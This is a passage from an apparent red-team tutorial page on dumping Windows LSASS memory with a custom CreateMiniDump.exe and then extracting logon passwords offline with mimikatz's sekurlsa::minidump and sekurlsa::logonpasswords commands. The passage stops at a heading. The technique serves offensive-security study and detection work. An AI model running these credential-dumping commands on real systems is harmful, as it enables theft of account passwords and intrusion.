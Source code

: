 {% file src="../../.gitbook/assets/createminidump.exe" caption="CreateMiniDump.exe" %}

Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-01-44.png)

{% hint style="info" %}
Or simply include at the top of the source code:  
`#pragma comment (lib, "Dbghelp.lib")`
{% endhint %}

### Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords

{% code title="attacker" %}
```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/peek-2019-03-23-22-16.gif)

### Why it's worth it?
